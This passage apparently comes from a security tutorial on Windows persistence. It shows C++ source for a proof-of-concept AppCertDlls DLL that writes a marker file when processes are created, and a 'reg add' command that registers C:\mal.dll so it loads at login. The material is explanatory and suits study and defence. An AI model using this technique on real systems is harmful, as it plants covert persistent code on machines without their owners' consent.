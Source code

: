 ```

typedef enum _REASON

{

PROCESS_CREATION_QUERY = 1,

PROCESS_CREATION_ALLOWED = 2,

PROCESS_CREATION_DENIED = 3

} REASON;

LPCWSTR target = L"C:\\Windows\\System32\\cmd.exe";

VOID exec() {

CreateFileA("C:\\Users\\Public\\poc.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

return;

}

extern "C" __declspec(dllexport) NTSTATUS NTAPI CreateProcessNotify(LPCWSTR lpApplicationName, REASON enReason) {

NTSTATUS ntStatus = 0x00000000; // STATUS_SUCCESS

int result = lstrcmpiW(target, lpApplicationName);

if (result) {

exec();

}

return ntStatus;

}
```

1. Set registry: the DLL has to be specified in the registry.

`reg add “HKLM\System\CurrentControlSet\Control\Session Manager\AppCertDlls” /v “persist” /d C:\mal.dll`

![](https://hadess.io/wp-content/uploads/2023/11/image-40.png)

1. Login: after logging in the DLL should be executed.

![](https://hadess.io/wp-content/uploads/2023/11/image-46.png)
